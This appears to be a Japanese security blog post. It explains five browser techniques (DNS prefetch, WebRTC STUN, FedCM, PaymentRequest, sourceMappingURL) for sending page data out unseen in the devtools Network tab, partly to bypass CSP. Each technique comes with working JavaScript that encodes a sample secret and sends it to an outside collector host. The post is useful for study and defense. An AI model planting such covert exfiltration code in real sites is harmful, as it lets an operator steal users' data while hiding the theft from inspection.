

# ブラウザ開発者ツールのネットワークタブに表示されない情報送信手法

## はじめに
はじめまして、セキュリティエンジニアのSatoki ([@satoki00](https://x.com/satoki00)) です。今回はブラウザの開発者ツールのネットワークタブから隠れて、Webサイト内の情報を送信する手法をまとめます。所謂Exfiltrationというやつです。中にはCSPの制限をBypassするために用いられるテクニックもあります。CTFなどで安全に使ってください。

## 前提
発端はWeb上でテキストの文字数をカウントできるサイトが閉鎖する際の話です。カウント対象のテキストデータがサイト運営 (やサイトを改竄した攻撃者) に盗み取られていないかという議論が巻き起こっていました。「盗み取られていない」側の主張は、ブラウザの開発者ツールのネットワークタブにリクエストを送信した形跡がないというものでした。ここで **ブラウザの開発者ツールのネットワークタブに表示がなければ外部へデータを送信していないのか？** といった疑問が生まれます。確かにfetchやXMLHttpRequestを用いて外部へデータを送信すると、ネットワークタブにリクエストの詳細が表示されます。とても気になりますね。

  
ネットワークタブにリクエストの詳細が表示される  


ちなみに、件の文字数カウントサイトはローカルで文字数をカウントする設計で、安全だったのであろうと考えています (HTTPS未対応だったのでMITMできるという話は置いておく) 。

## テクニック
**ブラウザの開発者ツールのネットワークタブに表示がなければ外部へデータを送信していないのか？** の答えは否です。よく考えれば分かるのですが、実際にJavaScriptで送信するテクニックを紹介します。テクニックのゴールは、"文字数カウントのために貼り付けられたテキストを、ネットワークタブに表示させることなく送信する"です。ここではサイト運営が悪人か、サイトが改竄されたかを問いません。ちなみにページのcloseを検知しての送信や時間差での送信などは禁止です 。シグナリング時のWebSocketも怪しすぎるのでアウトです。

以下が今回の検証環境です。  
- Google Chrome 126.0.6478.127 (Firefoxには生えていないWebAPIがあるので注意)  
- [RequestBin](https://pipedream.com/requestbin) (HTTPリクエストの受信)  
- [mess with dns](https://messwithdns.net/) (DNSリクエストの受信)  

送信するデータの例として文字列 `Satoki_no_himitsu` を用います。他の文字列でもbase64やhexに変換すれば、やることは変わりません。長さが問題であれば分割すれば良いです。

### DNS Prefetch
ページ読み込みの速度向上のため、ブラウザが事前に名前解決を行う仕組みを利用します。HTML中に`<link rel="dns-prefetch" href="example.com">`と記述することで利用できます。ブラウザの設定で「ページをプリロードする」がoffの場合には利用できません。

```js
var body = document.getElementsByTagName("body")[0];
body.innerHTML = body.innerHTML + '<link rel="dns-prefetch" href="//' + "Satoki_no_himitsu".split("").map(c => c.charCodeAt(0).toString(16)).join("") + '.papaya260.messwithdns.com">';
```

  
受信したリクエスト  

### WebRTC
WebRTCのコネクション時のSTUNサーバへのDNSリクエストを利用します。未検証ですがSTUNサーバの認証のためのusernameとして送信したい情報を設定する手法もあるようです。

```js
p = new RTCPeerConnection({
    iceServers: [{
        urls: "stun:" + "Satoki_no_himitsu".split("").map(c => c.charCodeAt(0).toString(16)).join("") + ".rhino232.messwithdns.com"
    }]
});
p.createDataChannel("");
p.setLocalDescription();
```

  
受信したリクエスト  


### FedCM
IdPから認証情報を取得する際のリクエストURLを利用します。認証情報を保存する際のアイコンのURLとして情報を送信する手法も確認されていますが、ユーザにダイアログが出現するため今回はスコープ外とします。セキュアコンテキストでのみ利用できます。

```js
await navigator.credentials.get({
    identity: {
        providers: [{
            configURL: "https://enbx53nv6g23p.x.pipedream.net/" + "?text=Satoki_no_himitsu",
            clientId: "satoki",
        }, ],
    },
});
```

  
受信したリクエスト  


### PaymentRequest
Payment Request APIのコンストラクタに決済手段としてURLを渡すことで、リクエストが発される仕組みを利用します。セキュアコンテキストでのみ利用できます。

```js
new PaymentRequest(
    [{
        supportedMethods: "https://envycdb25h1v.x.pipedream.net/" + "?text=Satoki_no_himitsu",
    }, ], {
        total: {
            label: "total",
            amount: {
                value: "10000",
                currency: "USD"
            },
        },
    },
);
```

  
受信したリクエスト  

### sourceMappingURL
ブラウザがminifyなどされる前のソースコードを取得する機能である、SourceMapを利用します。開発者ツールを開いた場合 (Firefoxではデバッグタブを開いた場合) にのみリクエストが発生します。

```js
var script = document.createElement("script");
script.text = "//# sourceMappingURL=https://en74n4g1y5i1j.x.pipedream.net/?text=" + "Satoki_no_himitsu";
document.body.appendChild(script);
```

  
受信したリクエスト  


## おわりに
**いかがでしたか！**  
ブラウザの開発者ツールのネットワークタブに表示が無くとも、外部に情報が送信されている可能性があることがわかりましたね。他にも様々な手法があるかと思いますので、発見したら教えてください。


※ 本記事は2024/04/02にX (旧Twitter) にポストしたもの+αのまとめです。それ以降でどこかにまとめられているかもしれませんが、私の知るところではありません。

## 参考文献
- [HackTricks / CSP Exfiltration Bypasses](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#csp-exfiltration-bypasses)  
- [@st98さんのXポスト](https://x.com/st98_1f512/status/1787857217557070142)  
- [@melonattackerさんのXポスト](https://x.com/melonattacker/status/1787839408458416417)  
- [MDN / Federated Credential Management (FedCM) API](https://developer.mozilla.org/en-US/docs/Web/API/FedCM_API)  
- [MDN / Payment Request API](https://developer.mozilla.org/en-US/docs/Web/API/Payment_Request_API)  
- [@XssPayloadsさんのXポスト](https://x.com/XssPayloads/status/792683058931625984)  